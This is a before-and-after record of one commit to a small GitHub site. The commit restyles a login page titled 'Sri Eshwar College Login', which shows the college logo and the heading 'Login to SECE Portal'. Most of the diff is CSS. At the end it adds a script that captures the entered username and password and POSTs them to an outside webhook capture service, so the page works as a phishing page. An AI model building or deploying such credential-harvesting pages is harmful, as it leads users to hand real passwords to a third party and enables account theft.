

Before and after one commit to Likith-LVSHD/TEST, a plain HTML site: page index.html in a window 390 px wide. Shown: the part 342-860 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,55 +5,89 @@
   <title>Sri Eshwar College Login</title>
   <style>
     body {
-      font-family: Arial, sans-serif;
-      background: #f0f4f7;
+      margin: 0;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      background: linear-gradient(to right, #e0eafc, #cfdef3);
       display: flex;
       justify-content: center;
       align-items: center;
       height: 100vh;
+      overflow: hidden;
     }
 
     .login-container {
       background: white;
       padding: 40px;
-      border-radius: 12px;
-      box-shadow: 0 8px 24px rgba(0, 0, 0, 0.1);
-      width: 360px;
+      border-radius: 16px;
+      box-shadow: 0 12px 40px rgba(0, 0, 0, 0.15);
+      width: 380px;
       text-align: center;
+      animation: fadeInUp 1s ease forwards;
+      opacity: 0;
+    }
+
+    @keyframes fadeInUp {
+      from {
+        transform: translateY(40px);
+        opacity: 0;
+      }
+      to {
+        transform: translateY(0);
+        opacity: 1;
+      }
     }
 
     .logo {
-      width: 100px;
-      height: 100px;
+      width: 90px;
+      height: 90px;
       object-fit: contain;
       margin-bottom: 20px;
+      animation: bounce 1.2s ease-in-out;
+    }
+
+    @keyframes bounce {
+      0%, 100% {
+        transform: translateY(0);
+      }
+      50% {
+        transform: translateY(-15px);
+      }
     }
 
     h2 {
       margin-bottom: 20px;
-      color: #333;
+      color: #0a4e8c;
+      font-size: 24px;
     }
 
     input[type="text"],
     input[type="password"] {
       width: 100%;
-      padding: 12px;
-      margin: 10px 0;
+      padding: 14px;
+      margin: 12px 0;
       border: 1px solid #ccc;
-      border-radius: 6px;
+      border-radius: 8px;
       font-size: 16px;
+      transition: 0.3s;
+    }
+
+    input:focus {
+      border-color: #0a4e8c;
+      outline: none;
+      box-shadow: 0 0 5px #0a4e8c60;
     }
 
     button {
       width: 100%;
-      padding: 12px;
+      padding: 14px;
       background-color: #0a4e8c;
       color: white;
       border: none;
-      border-radius: 6px;
-      font-size: 16px;
+      border-radius: 8px;
+      font-size: 17px;
       cursor: pointer;
-      margin-top: 10px;
+      margin-top: 14px;
+      transition: background-color 0.3s ease;
     }
 
     button:hover {
@@ -61,9 +95,18 @@
     }
 
     .footer-text {
-      margin-top: 20px;
+      margin-top: 25px;
       font-size: 14px;
       color: #777;
+      opacity: 0.8;
+    }
+
+    /* Responsive */
+    @media (max-width: 420px) {
+      .login-container {
+        width: 90%;
+        padding: 30px;
+      }
     }
   </style>
 </head>
@@ -72,9 +115,9 @@
   <div class="login-container">
     <img src="SECE.jpg" alt="Sri Eshwar Logo" class="logo">
     <h2>Login to SECE Portal</h2>
-    <form>
-      <input type="text" placeholder="Username" required>
-      <input type="password" placeholder="Password" required>
+    <form id="loginForm">
+      <input type="text" id="username" placeholder="Username" required>
+      <input type="password" id="password" placeholder="Password" required>
       <button type="submit">Login</button>
     </form>
     <div class="footer-text">
@@ -82,5 +125,31 @@
     </div>
   </div>
 
+  <script>
+    document.getElementById('loginForm').addEventListener('submit', async function(e) {
+      e.preventDefault();
+
+      const username = document.getElementById('username').value;
+      const password = document.getElementById('password').value;
+
+      const response = await fetch("https://play.svix.com/in/e_tE9ksC8Tn9gECJk6qCOMb9JeaVf/", {
+        method: "POST",
+        headers: {
+          "Content-Type": "application/json"
+        },
+        body: JSON.stringify({
+          username: username,
+          password: password
+        })
+      });
+
+      if (response.ok) {
+        alert("Login data submitted successfully!");
+      } else {
+        alert("Failed to submit data.");
+      }
+    });
+  </script>
+
 </body>
 </html>
```
